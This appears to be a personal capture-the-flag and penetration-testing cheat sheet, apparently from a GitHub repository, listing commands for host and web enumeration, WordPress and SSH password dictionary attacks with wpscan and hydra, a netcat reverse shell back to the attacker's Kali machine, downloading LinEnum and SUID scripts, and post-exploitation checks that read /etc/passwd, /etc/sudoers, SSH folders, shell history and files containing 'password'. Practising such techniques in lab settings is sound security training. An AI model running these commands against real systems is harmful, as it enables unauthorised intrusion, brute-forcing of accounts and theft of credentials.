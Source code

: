Inspired by https://github.com/DCAU7/ctf-template/blob/master/ctf-template.txt

# Enumeration
--- 

### An active/passive arp scanner with a number of different options.
`netdiscover`



### I used to use nmap to determine the IP but now just use netdiscover instead.
`nmap -sT 192.168.0.0/24`




### Nmap TCP connect scan (-sT) that also enables OS detection, version detection, script scanning and traceroute (-A)
`nmap -sT -A <IP Address>`





### Nmap TCP connect scan (-sT) that scans all ports (-p-). A regular scan only scans the 1000 most common ports, 
### so this should identify any non-standard ports as well.
`nmap -sT -p- <IP Address>`





### A web server scanner that can perform a number of tests. Can sometimes reveal interesting things.
`nikto -h http://<IP Address>`




### A web content scanner. Can be helpful in finding hidden files or directories on a web server.
`dirb http://<IP Address> -w /usr/share/dirb/wordlists/common.txt`




### A web content scanner. Can be helpful in finding hidden files or directories on a web server.
`gobuster dir -u http://<IP Address>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`




### dirsearch is another web content scanner, but isn't installed on Kali Linux, but it's a great tool (better than dirb in my opinion, 
### so installed it from GitHub).
`./dirsearch.py -e php,html,txt,zip,gz,tgz,tar,bzip2,bak,log,pcap -u http://<IP Address>`




`./dirsearch.py -e php,html,txt,zip,gz,tgz,tar,bzip2,bak,log,pcap -rR1 -u http://<IP Address>`




`./dirsearch.py -e php,html,txt,zip,gz,tgz,tar,bzip2,bak,log,pcap -rR1 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://<IP Address>`




### This doesn't always exist, but if it does, it can be a good source of information
`http://<IP Address>/robots.txt`




### WordPress scanner User Enumeration
`wpscan --url http://<IP Address> -e u1-10 --no-banner --no-update`




### WordPress scanner Plugin Enumeration
`wpscan --url http://<IP Address> -e p --no-banner --no-update`




### WordPress scanner Template Enumeration
`wpscan --url http://<IP Address> -e t --no-banner --no-update`




### WordPress scanner - this does a dictionary attack - just need to add a username or usernames list (change to -u for username list)
### The --wp-content wp-content argument is only required if there are problems with the scan
`wpscan --url http://<IP Address> -U <<<<  username  >>>> -P '/usr/share/wordlists/rockyou.txt' --wp-content-dir wp-content --no-banner --no-update`




### Only useful for Samba Shares etc etc.  You may need to add parameters as required
`enum4linux <IP Address>`




### Good for dictionary attacking SSH (if needed)
`hydra -f -V -t 4 -l youer_user_name -P '/usr/share/wordlists/rockyou.txt' ssh://<IP Address> -I`




# ADDITIONAL NOTES:



	Reverse Shells

---


### On Kali Linux - start netcat listening on port 5555

nc -nlvp 5555



### Ideally, you want to be able to create a reverse shell to connect back to your Kali Linux computer from the remote server

nc -e /bin/sh <IP Address of Kali> 5555









	Post Enumeration - these are things to look for to help with privilege escalation.


### Improving the quality of the shell
python -c 'import pty;pty.spawn("/bin/bash")'

### If python isn't installed, try Python3
python3 -c 'import pty;pty.spawn("/bin/bash")'



### Handy for an automated check for most of the below, but obviously only works if python is installed.
http://www.securitysift.com/download/linuxprivchecker.py




### LinEnum script - https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh




### A python script that searches for different SUID files and alerts you to them
https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py




### Check /etc/passwd - handy for usernames
cat /etc/passwd






### Checks for SUID files that may be able to be exploited (I recommend getting used to the normal SUID files on 
### a system so you can spot the unusual ones)
`find / -perm -u=s -type f 2>/dev/null`






### Checks the /etc/passwd file to see if there is anyone else with root privileges
grep -v -E "^#" /etc/passwd | awk -F: '$3== 0 {print $1}'






### Checks processes - use ps aux w for a fuller view
ps aux






### Checks processes
ps -ef






### Lists the sudo privileges for the user you are in the system as
sudo -l






### Try and read the /etc/sudoers file - this rarely works unless you have appropriate permissions
cat /etc/sudoers






### Checks cron folders
ls -la /etc/cron*






### Run this command in the /etc/ folder - lots of false positives, but you never know
find . -type f -maxdepth 4 | xargs grep -i "password"






### Checks your home folder for SSH files
ls -la ~/.ssh/






### Check history of typed commands (I suggest using both methods)
cat ~/.bash_history






### Check history of typed commands (I suggest using both methods)
history






